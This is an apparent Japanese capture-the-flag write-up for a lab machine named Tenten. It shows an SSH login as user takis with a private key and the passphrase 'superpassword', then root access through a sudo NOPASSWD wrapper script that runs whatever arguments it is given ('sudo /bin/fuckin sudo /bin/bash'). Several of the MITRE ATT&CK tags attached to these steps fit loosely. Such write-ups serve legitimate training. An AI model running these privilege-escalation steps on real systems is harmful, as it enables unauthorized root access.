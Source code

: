 tenten.htbのwordpressにアカウントがあるtakisでsshにログインする
SSH接続で使用する秘密鍵を指定して、ログインをする必要がある。
この時、パスワードを求められるが、パスワードは、superpasswordである。
これで、ユーザー権限は取得できた。
```bash
ssh -i id_rsa takis@10.129.247.176
```

- **Tactics**:
    - #Tactic_初期アクセス
    - #Tactic_Escution_実行
- **Techniques**:
    - #T1190_公開アプリケーションのエクスプロイト
    - #T1059_コマンドとスクリプトインタープリタ
    - #T1078_有効なアカウント
    - その他のInitial Access/Execution関連技術...




---

# Privilege Escalation

sudo -lで
```bash
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin

```

```bash
takis@tenten:~$ file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```

```bash
takis@tenten:~$ sudo /bin/fuckin sudo /bin/bash   
root@tenten:~# ls
```


- **Tactics**:
    - #Tactic_特権昇格
- **Techniques**:
    - #T1068_特権昇格のためのエクスプロイト
    - #T1055_プロセス注入
    - #T1053_スケジュールされたタスク/ジョブ
    - その他のPrivilege Escalation関連技術...
